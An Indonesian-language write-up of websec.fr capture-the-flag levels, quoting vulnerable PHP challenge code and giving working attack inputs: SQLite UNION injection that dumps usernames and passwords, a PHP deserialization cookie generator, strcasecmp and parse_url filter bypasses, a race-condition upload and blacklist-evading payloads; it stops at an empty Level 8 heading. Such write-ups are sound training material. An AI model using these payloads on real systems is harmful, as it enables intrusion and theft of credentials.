# Babysteps

## Level 1



Diberikan form input ID yang ketika di submit akan melakukan query ke database untuk mengeluarkan output berupa username dari id yang diminta.

Penulis berasumsi bahwa level 1 memiliki kelemahan berupa SQL Injection

Melihat source codenya 

```
<?php
session_start ();

ini_set('display_errors', 'on');
ini_set('error_reporting', E_ALL);

include 'anti_csrf.php';

init_token ();

class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    check_and_refresh_token();

    $lo = new LevelOne ();
    $userDetails = $lo->doQuery ($_POST['user_id']);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level One</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                <div class="row">
                    <h1>LevelOne <small> - Select the user by ID you wish to view</small></h1>
                </div>
                <div class="row">
                    <p class="lead">
                        <a href="source.php">This application</a> is used to view the username by the given user ID,
                        it will return the corresponding username from the database.<br>
                    </p>
                </div>
            </div>
            <div class="container">
                <?php if (isset ($userDetails) && !empty ($userDetails)): ?>
                    <div class="row">
                        <p class="well"><strong>Username for given ID</strong>: <?php echo $userDetails['username']; ?> </p>
                        <p class="well"><strong>Other User Details</strong>: <br />
                            <?php 
                            $keys = array_keys ($userDetails);
                            $i = 0;

                            foreach ($userDetails as $user) { 
                                echo $keys[$i++] . ' -> ' . $user . "<br />";
                            } 
                            ?> 
                        </p>
                    </div>
                <?php endif; ?>

                <div class="row">
                    <label for="user_id">Enter the user ID:</label>
                    <form name="username" method="post">
                        <div class="form-group col-md-2">
                            <input type="text" class="form-control" id="user_id" name="user_id" value="1" required>
                        </div>
                        <div class="col-md-2">
                            <input type="submit" class="form-control btn btn-default" placeholder="Submit!" name="submit">
                        </div>
                        <input type="hidden" id="token" name="token" value="<?php echo $_SESSION['token']; ?>">
                    </form>
                </div>
            </div>
        </div>
        <script type="text/javascript" src="../static/bootstrap.min.js"></script>
    </body>
</html>
```

Kita bahkan diberikan clue keras dengan nama variable "Injection"

```
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);
        
        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

Database yang digunakan sepertinya SQLite , mari kita coba beberapa payload SQLite

Enumerasi tabel dan kolom

```
-1 UNION SELECT 2,group_concat(sql) from sqlite_master-- -
```



Mengeluarkan data username dan password

```
-1 UNION SELECT group_concat(username),group_concat(password) from users-- -
```



Flag : WEBSEC{Simple_SQLite_Injection}


## Level 



Diberikan sebuah form submit untuk mengecek username dari tiap id, penulis berasumsi bahwa ada database exploitation walau kemungkinan besar bukan SQLinjection biasa.

Melihat source codenya

```
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
?>

<!DOCTYPE html>
<html>
<head>
        <title>#WebSec Level Four</title>
        <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
        <body>
                <div id="main">
                        <div class="container">
                                <div class="row">
                                        <h1>LevelFour <small> - Cereal is nation</small></h1>
                                </div>
                                <div class="row">
                                        <p class="lead">
                        Since we're lazy, we take advantage of php's garbage collector to properly display query results.<br>
                         We also do like to write neat OOP.
                        You can get the sources <a href="source1.php">here</a> and <a href="source2.php">here</a>.
                                        </p>
                                </div>
                        </div>
                        <div class="container">
                <div class="row">
                    <form class="form-inline" method='post'>
                        <input name='id' class='form-control' type='text' placeholder='User id'>
                        <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                        </form>
                                </div>
                        </div>
                </div>
        </body>
</html>
```

Melihat di source code ini, sepertinya cookie leet_hax0r adalah hasil serialize dari ip kita saat berkunjung ke website tersebut.



dan source code kedua

```
<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }
    
    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }
        
        $ret = $this->execute ();
        if (false !== $ret) {    
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
?>
```

[https://www.w3schools.com/php/php_oop_destructor.asp](https://www.w3schools.com/php/php_oop_destructor.asp)

Di source code ke 2 kita bisa melihat sebuah function __destruct(), dimana function akan selalu dipanggil sebelum script selesai berjalan.

Hal ini tentu menjadi keuntungan bagi penulis karena dengan dibantu function __destruct, penulis bisa menyisipkan query kedalam cookie yang di serialized tadi dan query tersebut akan bisa di execute

Penulis membuat script PHP untuk generate cookie leet_hax0r yang berisi query SQL

```
<?php 
class SQL{
	public $query="SELECT password username from users where id=1";
}

echo base64_encode(serialize(array('ip' => '111.95.127.173',new SQL())));
echo "\n";

?>
```

Ketika cookienya dimasukkan dan page di reload, maka flag akan terlihat



Flag : WEBSEC{9abd8e8247cbe62641ff662e8fbb662769c08500}


## Level 17



Kita diberikan sebuah submit form dimana kita harus menebak flagnya itu sendiri

Mari kita cek source code yang disediakan

```
<?php
include "flag.php";

function sleep_rand() { /* I wish php5 had random_int() */
        $range = 100000;
        $bytes = (int) (log($range, 2) / 8) + 1;
        do {  /* Side effect: more random cpu cycles wasted ;) */
            $rnd = hexdec(bin2hex(openssl_random_pseudo_bytes($bytes)));
        } while ($rnd >= $range);
        usleep($rnd);
}
?>
<!DOCTYPE html>
<html>
<head>
        <title>#WebSec Level Seventeen</title>
        <link rel="stylesheet" href="../static/bootstrap.min.css" />
    <meta http-equiv="content-type" content="text/html;charset=UTF-16">
</head>
        <body>
                <div id="main">
                        <div class="container">
                                <div class="row">
                                        <h1>Level Seventeen <small> - Guessing is fun!</small></h1>
                                </div>
                                <div class="row">
                                        <p class="lead">
                    Can you guess the flag?  You can check the sources <a href="source.php">here</a>.
                                        </p>
                                </div>
                        </div>
                        <div class="container">
                            <div class="row">
                                <form class="form-inline" method='post'>
                                    <input name='flag' class='form-control' type='text' placeholder='Guessed flag'>
                                    <input class="form-control btn btn-default" name="submit" value='Go' type='submit'>
                                </form>
                            </div>
                        </div>
                        <?php
                        if (isset ($_POST['flag'])):
                            sleep_rand(); /* This makes timing-attack impractical. */
                        ?>
            <br>
                        <div class="container">
                            <div class="row">
                                <?php
                                if (! strcasecmp ($_POST['flag'], $flag))
                                    echo '<div class="alert alert-success">Here is your flag: <mark>' . $flag . '</mark>.</div>';   
                                else
                                    echo '<div class="alert alert-danger">Invalid flag, sorry.</div>';
                                ?>
                            </div>
                        </div>
                        <?php endif ?>
                </div>
        </body>
</html>
```

Penulis langsung melihat ke fungsi yang digunakan untuk string compare dengan flag yang sudah di include diatas.

[https://www.php.net/manual/en/function.strcasecmp.php](https://www.php.net/manual/en/function.strcasecmp.php)

strcasecmp adalah string comparison yang case-insensitive menggunakan binary, dan akan mengembalikan value < 0 jika arg1 lebih kecil dari arg 2, value > 0 jika arg1 lebih besar dari arg2 , dan value 0 jika keduanya sama.

Namun ternyata ada cara untuk memaksa strcasecmp untuk me return 0, yaitu ketika sebuah string di compare dengan sebuah array akan selalu mereturn 0

Mari kita coba kirim request dengan POST data array

```
curl -X POST https://websec.fr/level17/index.php -F 'flag[0]=x' | grep -i WEBSEC
```

Flag : WEBSEC{It_seems_that_php_could_use_a_stricter_typing_system}




## Level 25



Kita diberikan sebuah form untuk melakukan include page, namun kita tidak diperbolehkan untuk melakukan include terhadap flag.txt

Mari kita cek source codenya

```
<?php
if (!isset($_GET['page'])) {
  header('Location: http://websec.fr/level25/index.php?page=main');
  die();
}
?>
<!DOCTYPE html>
<!-- A smooth level by kkadosh -->
<html>
<head>
  <title>#WebSec Level TwentyFive</title>
  <link rel='stylesheet' href='../static/bootstrap.min.css' />
</head>
  <body>
      <div id='main'>
          <div class='container'>
              <div class='row'>
                  <h1>LevelTwentyFive</h1>
              </div>
              <div class='row'>
                  <p class='lead'>
                        You can <cite>include any page so long as it is <s>black</s> not the <code>flag.txt</code> one</cite>. As usual, the source code is <a href='source.php'>free</a>.<br>
                  </p>
                    <!--
                        Yeah, the webserver is configured so that you can't directly access .txt files :)
                        And no, PHP wrappers aren't the only way to have fun!
                    -->
              </div>
          </div>
          <div class='container'>
              <div class='row'>
                  <label for='user_id'>Enter the page you want to include:</label>
                  <form name='username' method='get'>
                      <div class='form-group col-md-2'>
                          <input type='text' class='form-control' id='page' name='page' value='main' required>
                      </div>
                      <div class='col-md-2'>
                          <input type='submit' class='form-control btn btn-default' name='send'>
                      </div>
                  </form>
              </div>
            <p class='well'>
                  <?php
                  parse_str(parse_url($_SERVER['REQUEST_URI'])['query'], $query);
                  foreach ($query as $k => $v) {
                      if (stripos($v, 'flag') !== false)
                          die('You are not allowed to get the flag, sorry :/');
                  }

                  include $_GET['page'] . '.txt';
                  ?>
        </p>
          </div>
      </div>
  </body>
</html>
```

Hal yang menarik disini adalah, karena request yang dikirim menggunakan metode GET request, maka input yang di form akan terlihat di url. Oleh sebab itu pembuat challenge menggunakan metode parse_url untuk membagi url menjadi bagian bagian data yang kemudian di cek agar peserta tidak bisa melihat flag.txt

Mari kita coba untuk debugging di local

```
<?php

$url = "http://websec.fr/level25/index.php?page=flag&:80";
parse_str(parse_url($url)['query'], $query);

#var_dump($query);

foreach($query as $k => $v){
	echo $v."\n";
}

var_dump(stripos($v, "flag"));

echo "\n";
?>
```



Function parse_url ternyata memiliki kelemahan saat melakukan parsing, dimana dia akan mencoba memparsing port namun di tempat yang salah. Kita bisa memanfaatkan ini untuk menyembunyikan isi dari GET request yang ingin kita kirim.

Stripos akan mengembalikan posisi string di array, namun akan mengembalikan false jika tidak menemukannya.

Mari kita curl dan dapatkan flagnya

```
curl "http://websec.fr/level25/index.php?page=flag&:80" | grep WEBSEC
```



Flag : WEBSEC{How_am_I_supposed_to_parse_uri_when_everything_is_so_broooken}


## Level 28



Sepertinya di challenge ini kita diminta untuk menebak hashsum dari flag.php file untuk mendapatkan flag dari challenge ini

Mari kita lihat terlebih dahulu source codenya

```
<?php
if(isset($_POST['submit'])) {
  if ($_FILES['flag_file']['size'] > 4096) {
    die('Your file is too heavy.');
  }
  $filename = './tmp/' . md5($_SERVER['REMOTE_ADDR']) . '.php';

  $fp = fopen($_FILES['flag_file']['tmp_name'], 'r');
  $flagfilecontent = fread($fp, filesize($_FILES['flag_file']['tmp_name']));
  @fclose($fp);

    file_put_contents($filename, $flagfilecontent);
  if (md5_file($filename) === md5_file('flag.php') && $_POST['checksum'] == crc32($_POST['checksum'])) {
    include($filename);  // it contains the `$flag` variable
    } else {
        $flag = "Nope, $filename is not the right file, sorry.";
        sleep(1);  // Deter bruteforce
    }

  unlink($filename);
}
?>

<!DOCTYPE html>
<html>
<head>
  <title>#WebSec Level 28</title>
  <link rel='stylesheet' href='../static/bootstrap.min.css' />
</head>
  <body>
    <div id='main'>
      <div class='container'>
        <div class='row'>
          <h1>Level TwentyEight<small> - Please be our guess.</small></h1>
        </div>
        <div class='row'>
                    <p class='lead'>
                        Like a lot of CTF, we're doing some <s>ucucuga</s> guessing challenges now, because everyone loves them.<br/>
            You can check the source <a href='./source.php'>here</a>.
          </p>
        </div>
      </div>
      <div class='container '>
        <div class='row '>
                <label for='user_id'>Please upload the <code>flag.php</code> file, and enter its checksum:</label>
          <form action='' method='post' enctype='multipart/form-data' class="form-inline">
                <div class='form-group'>
              <label class="btn btn-default">
                Select file <input type='file' name='flag_file' id='flag_file' hidden class="hidden">
              </label>
            </div>
                      <div class="form-group">
                        <div class="input-group">
                <div class="input-group-addon">checksum</div>
                <input type='text' name='checksum' id='checksum' class="form-control"> <br>
              </div>
            </div>
            <div class="form-group">
              <input type='submit' value='Upload and check' class="btn btn-default" name='submit'>
            </div>
          </form>
        </div>
      </div>

      <br/>

      <div class='container'>
        <p class="well"><?php if (isset($flag)){ echo $flag; } else { echo 'Can you guess it?'; }?></p>
      </div>
    </div>
  </body>
</html>
```

Jika diperhatikan lebih baik, penulis menyadari bahwa sebelum script melaksanakan unlink, ada sleep(1) terlebih dahulu.

Maka kita bisa memanfaatkan keadaan tersebut untuk melancarkan race condition. Kita akan melakukan upload file php yang mengeluarkan source dari flag.php dan sebelum di unlink , kita akan browse kedalamnya agar script ter execute



Walaupun hash yang kita berikan salah, namun karena sebelum di unlink kita berhasil mengakses php scriptnya, kita bisa mendapatkan flagnya

```
https://websec.fr/level28/tmp/e4eee10e2cb9364b66a220908d81fbdf.php
```



Flag : WEBSEC{Can_w3_please_h4ve_mutexes_in_PHP_naow?_Wait_there_is_a_pthread_module_for_php?!_Awwww:/}


# Easy

## Level 2



Soal kali ini sudah mereferensikan dengan soal level 1, maka bisa ditentukan bahwa challenge ini memiliki kelemahan yang sama yaitu SQLi

Mari kita cek source codenya

```
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>

<!DOCTYPE html>
<html>
<head>
    <title>#WebSec Level Two</title>
    <link rel="stylesheet" href="../static/bootstrap.min.css" />
</head>
    <body>
        <div id="main">
            <div class="container">
                    <div class="row">
                        <h1>LevelTwo <small>Select the user by ID you wish to view</small></h1>
                    </div>
                    <div class="row">
                        <p class="lead">
                            This application is the same as the <a href="../level01/index.php">previous one</a> (You can <a href="./source.php">check by yourself</a> if you don't trust us). However, the developers saw the logs and found that the application was being attacked so they filtered out some of the database keywords which made it possible.<br />
                        </p>
                        <p class="lead">
                            The following keywords were found to be filtered by the application using <a href="https://secure.php.net/preg_replace">preg_replace ()</a>: <mark>union</mark>, <mark>order</mark>, <mark>select</mark>, <mark>from</mark>, <mark>group</mark>, <mark>by</mark>.
                        </p>
                    </div>
                </div>
            </div>
            <div class="container">
                    <?php if (isset ($userDetails) && !empty ($userDetails)): ?>
                        <div class="row">
                            <p class="well"><strong>Username for given ID</strong>: <?php echo $userDetails['username']; ?> </p>
                            <p class="well"><strong>Other User Details</strong>: <br />
                                <?php 
                                $keys = array_keys($userDetails);
                                $i = 0;

                                foreach($userDetails as $user) { 
                                    echo $keys[$i++] . ' -> ' . $user . "<br />";
                                } 
                                ?> 
                            </p>
                        </div>
                    <?php endif; ?>

                    <div class="row">
                        <form name="username" method="post">
                            <div class="form-group col-md-2">
                                <input type="text" class="form-control" id="user_id" name="user_id" placeholder="1" required>
                            </div>
                            <div class="form-group col-md-2">
                                <input type="submit" class="form-control btn btn-default" name="submit">
                            </div>
                        </form>
                    </div>
                </div>
            </div>
        </div>
        <script type="text/javascript" src="../static/bootstrap.min.js"></script>
    </body>
</html>
```

Ternyata wordlist yang di blacklist hanya di replace dengan "" atau kosong, jadi untuk melakukan bypassnya kita bisa mendouble kan kata kata yang di blacklist, contoh : union -> uniunionon

Payloadnya akan menjadi seperti ini

```
-1 UNUNIONION SSELECTELECT username,password ffromrom users-- -
```



Flag : WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}


## Level 8

